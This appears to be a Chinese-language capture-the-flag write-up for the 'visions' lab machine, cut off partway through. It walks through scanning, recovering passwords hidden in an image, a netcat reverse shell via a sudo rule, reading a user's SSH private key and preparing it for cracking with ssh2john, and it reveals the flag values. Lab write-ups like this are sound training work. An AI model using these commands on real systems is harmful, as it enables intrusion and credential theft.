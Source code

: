 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->图片矫正选项-->对比度-56%，就能看到账户密码

>sophia/seemstobeimpossible

获得第一个flag
```C
emma@visions:/home/sophia$ su sophia
su sophia
Password: seemstobeimpossible

sophia@visions:~$ cat user.txt
cat user.txt
hmvicanseeforever

```

读取到ssh私钥
```c
sudo -l ///usr/bin/cat /home/isabella/.invisible
sudo /usr/bin/cat /home/isabella/.invisible
```

将私钥复制出来，这登录还需要密码，我们使用 **ssh2john** 将 **id_isa** 秘钥信息 转换 为 **john** 可以识别的hash，然后进行爆破
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh2john id_rsa >> hash  
```